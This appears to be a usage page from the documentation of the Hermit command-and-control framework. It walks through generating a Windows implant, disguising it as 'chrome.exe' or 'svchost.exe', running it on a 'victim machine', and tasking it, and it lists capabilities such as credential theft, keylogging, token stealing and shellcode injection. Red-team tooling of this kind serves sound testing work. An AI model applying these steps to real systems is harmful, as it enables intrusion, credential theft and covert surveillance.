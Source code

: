 # Simple Implant Beacon

This page introduces the basic usage of execute the implant beacon on Windows victim machine.  

Assume that you've already installed Hermit.  
If not yet, see [the Installation page](../installation.md) and try [Getting Started](../getting-started.md).

## 1. Start C2 Server

Go to the Hermit project directory then run `./hermit` command.

![hermit server start](../assets/images/terminal/hermit_server_start.png)

## 2. Start HTTPS Listener

![listener start](../assets/images/terminal/listener_start.png)

## 3. Generate Implant Payload

![payload gen](../assets/images/terminal/payload_gen_implant_beacon_win_amd64_exe.png)

The implant is saved under `$HOME/.hermit/server/listeners/listener-<name>/payloads/` folder.  

### Transfer the Implant

Transfer the implant (`.exe`) to the Windows target computer.  
At that time, it's recommended to rename the filename because the word "implant" in the file name is too dignified.  
For example, rename it with "chrome.exe", "svchost.exe", etc.

## 4. Execute Implant

On the victim machine, execute the implant as below:  

```ps title="Windows Victim Machine"
# Replace the filename with your own.
.\implant.exe
```

## 5. Switch to Agent Mode

After a few seconds, the agent checked in and listed on the C2 server.  
You can check the agent listed with the `agents` command.

![agent list](../assets/images/terminal/agent_list.png)

Now switch to Agent Mode by specifying the agent ID (e.g. `1`):

![agent use](../assets/images/terminal/agent_use.png)

## 6. Send Task & Get the Result

In Agent Mode, you can send tasks and get results.  
To see what tasks are available, run `?` or `help` command.  
Currently, the following tasks are available:

```txt
TASK
====

  cat          <FILE>       : Print the contents of a file
  cd           <DIR>        : Change the working directory
  connect      <URL>        : Change listener URL to connect
  cp           <SRC> <DEST> : Copy a file
  creds steal               : Steal credentials from various resources on the target computer
  dll          <PID> <FILE> : Load DLL and inject modules into the specified process
  download     <SRC> <DEST> : Download a file from the target computer
  env                       : Print environment variables
  execute      <CMD>        : Execute a system command on target computer
  groups                    : Print all local groups
  history                   : Retrieve information from history files of applications
  ip                        : Get the network interface information on target computer
  jitter       <NUM>        : Set jitter time (seconds) between requests from beacon
  keylog       <NUM>        : Keylogging for N seconds
  kill                      : Terminate the implant process
  ls           <DIR>        : List files in a directory
  migrate      <PID>        : Migrate the implant into another process
  mkdir        <DIR>        : Create a new directory
  mv           <SRC> <DEST> : Move a file to a destination location
  net                       : Get TCP connections
  procdump     <PID>        : Dump process memory to a specified output file
  ps                        : List processes that are running
  ps kill      <PID>        : Kill a specified process
  pwd                       : Print the current working directory
  reg subkeys               : Enumerate subkeys for the specified open registry key
  reg values                : Enumerate the specified registry values.
  rm           <FILE>       : Remove a file
  rmdir        <DIR>        : Remove a directory
  rportfwd add              : Reverse port forwarding with the specified remote ip/port
  rportfwd ls               : List settings for reverse port forwarding
  rportfwd rm               : Stop and remove listener for reverse port forwarding
  runas        <USER> <CMD> : Execute a program as another user
  screenshot                : Take a screenshot on target computer
  shellcode    <PID> <FILE> : Inject shellcode into the specified process
  sleep        <NUM>        : Set sleep time (seconds) between requests from beacon
  token revert              : Revert back to the original process token
  token steal  <PID>        : Steal token from the specified process and impersonate process
  upload       <SRC> <DEST> : Upload a file to the target computer
  users                     : Print all local users
  whoami                    : Print the current user name
  whoami priv               : Print the current user privileges

  task clear                : Remove all tasks from waitlist
  task list                 : List tasks waiting for the results
  tasks                     : Alias for 'task list'
```

First, let's try sending the `whoami` task to the agent.  
This task retrieves the username on the victim machine.  

![task send](../assets/images/terminal/task_send_whoami.png)

To see the tasks waiting for results, run the `tasks` command.  

After few seconds, if the task is successful, you can see the task results with the `loot` command:

![loot](../assets/images/terminal/loot.png)

Please try other tasks as well.

## 7. Stop Implant & Quit Agent Mode

After enumerations, stop the implant with the `kill` command:

```sh
Hermit > kill
```

Then run `exit` command to quit the agent mode.

